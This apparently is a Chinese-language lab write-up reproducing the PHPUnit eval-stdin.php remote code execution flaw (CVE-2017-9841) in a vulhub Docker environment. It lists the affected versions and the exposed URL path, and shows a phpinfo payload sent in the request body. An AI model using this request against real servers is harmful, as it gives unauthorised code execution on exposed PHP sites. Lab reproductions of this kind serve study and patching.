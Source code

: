 # 0x00 软件介绍
PHPUnit：一款php下软件测试常用的框架

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：PHPUnit 5.6.2

# 0x02 环境搭建
靶机环境：Ubuntu 18.04.5 LTS

cd ./vulhub-master/  
cd ./phpunit/  
cd ./CVE-2017-9841/  
docker-compose build  
docker-compose up -d

# 0x03 利用条件
使用composer安装受影响版本的PHPUnit

# 0x04 影响版本
4.8.19 <= PHPUnit <= 4.8.27  
5.0.10 <= PHPUnit <= 5.6.2

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

访问http://ip:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php  
直接在请求中添加
```
<?phpinfo();?>
```
如下图  
![image](./0.png)  
结果如下  
![image](./1.png)  

# 0x06 踩坑记录
坑1：  
在本地搭建环境，网络会非常非常慢，建议找一台云服务器

# 0x07 参考链接
无

